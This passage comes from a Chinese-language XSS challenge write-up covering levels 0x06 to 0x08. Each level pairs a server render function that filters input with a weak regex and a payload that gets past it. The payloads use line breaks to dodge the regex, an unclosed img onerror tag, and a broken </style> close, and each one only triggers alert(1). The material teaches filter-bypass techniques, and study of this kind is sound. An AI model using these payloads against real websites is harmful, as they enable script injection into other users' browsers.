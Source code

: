 

##### 0x06

```javascript
// server code
function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `<input value=1 ${input} type="text">`
}
```

```javascript
// input code
onmousemove
=alert(1)

// ig全局匹配并忽略大小写,正则匹配“auto|on.*=|>”替换为_
// 没有匹配换行可进行换行绕过，插入后需移动鼠标
// onmousemove 鼠标被移动,可参考：https://www.runoob.com/jsref/dom-obj-event.html
```

##### 0x07

```javascript
// server code
function render (input) {
  const stripTagsRe = /<\/?[^>]+>/gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}
```

```javascript
// input code
<img src=x onerror=alert(1)
     
// ig全局匹配并忽略大小写，正则匹配"<\/?[^>]+>"替换为空
// 回车自动补全
```

##### 0x08

```javascript
// server code
function render (src) {
  src = src.replace(/<\/style>/ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}
```

```javascript
// input code
</style
>
<img src=x onerror=alert(1)>

// ig全局匹配并忽略大小写，匹配“</style>”替换为/* 坏人 */
// 利用换行绕过匹配
```
